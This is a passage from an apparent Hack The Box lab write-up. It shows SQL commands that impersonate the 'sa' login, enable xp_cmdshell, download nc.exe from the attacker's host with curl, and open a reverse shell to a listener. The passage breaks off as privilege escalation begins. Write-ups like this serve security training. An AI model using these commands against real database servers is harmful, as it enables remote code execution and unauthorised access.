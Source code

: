 Now that we have verified RCE vulnerability, let's spawn a reverse shell.

Following command will download **nc.exe** from Kali's Python HTTP Server and spawn reverse shell using it:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

EXEC xp_cmdshell 'curl http://10.10.14.36:8088/nc.exe -o C:\ProgramData\nc.exe';
EXEC xp_cmdshell 'C:\ProgramData\nc.exe 10.10.14.36 1337 -e cmd';

SELECT IS_SRVROLEMEMBER('sysadmin');
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-27.png)

As we run the command, we can observer the target machine grabbing **nc.exe** from our Python web server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-28.png)

After it grabs **nc.exe**, it is used to spawn a reverse shell connection back to our netcat listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-29.png)

Now we have a shell as **sql_svc**.

## Privesc: sql_svc to mikasaackerman

Let's see what other uses are on the system:
